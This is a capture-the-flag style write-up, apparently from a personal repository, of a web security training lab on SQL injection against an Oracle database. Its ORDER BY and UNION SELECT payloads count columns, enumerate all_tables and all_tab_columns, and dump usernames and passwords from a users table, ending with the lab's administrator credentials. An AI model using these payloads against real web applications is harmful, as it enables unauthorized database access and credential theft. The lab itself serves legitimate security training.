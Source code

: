 # SQLi Lab 11

## Enumerating database elements in an Oracle-based Database system

This lab repeats the same requirements as lab 10. 

### First get the list of columns in the original query and the datatype for each query:

```txt
❯ python3 main.py --analyze https://target-ac871f831ef43b2980159d60005e002b.web-security-academy.net/filter?category=
[~] Status Code: 200.
[~] URL: https://target-ac871f831ef43b2980159d60005e002b.web-security-academy.net/filter?category='+order+by+1--
[~] Status Code: 200.
[~] URL: https://target-ac871f831ef43b2980159d60005e002b.web-security-academy.net/filter?category='+order+by+2--
[~] Status Code: 500.
[~] URL: https://target-ac871f831ef43b2980159d60005e002b.web-security-academy.net/filter?category='+order+by+3--
[+] Column count: 2
```

So we have the number of columns and after testing the datatypes for each column, we get that both columns are returning varchars (or strings)

### List of tables in the database:

We can get a full specification of the contents of the all_tables table in the OracleDB [documentation](https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286).
```http
GET /filter?category=%27+union+select+table_name,+NULL+from+all_tables+-- HTTP/1.1
```

This will return the list of tables:

```txt
TTS_ERROR$
TTS_TBS$
TTS_USR$
TYPE$
TYPED_VIEW$
TYPEHIERARCHY$
TYPE_MISC$
UET$
UGROUP$
UNDO$
USER$
USERS_UGFLTF
USER_ASTATUS_MAP
USER_HISTORY$
USTATS$
UTL_RECOMP_COMPILED
UTL_RECOMP_ERRORS
UTL_RECOMP_SORTED
VIEW$
VIEWCON$
VIEWTRCOL$
VTABLE$
```

We can see here that the table that seems the most interesting is `USERS_UGFLTF`

### Enumerating the columns of the found table
```http
GET /filter?category=%27+union+select+column_name,+NULL+from+all_tab_columns+where+table_name+%3d+%27USERS_UGFLTF%27+-- HTTP/1.1
```

And we get the following two columns: 

```txt
PASSWORD_KLRWZC
USERNAME_JBVGLU
```


### Finding the password of the administrator user
```http
GET /filter?category='+union+select+USERNAME_JBVGLU,+PASSWORD_KLRWZC+from+USERS_UGFLTF+-- HTTP/1.1
```

This will return the following information. We can then use the administrator password and username to authenticate into the application and solve the lab.

```txt
administrator
73racq8f6evi56467wo2

carlos
fuu9znnpxqejp7944t2m

wiener
lbtomdqlgxlj4pa8ys4k
```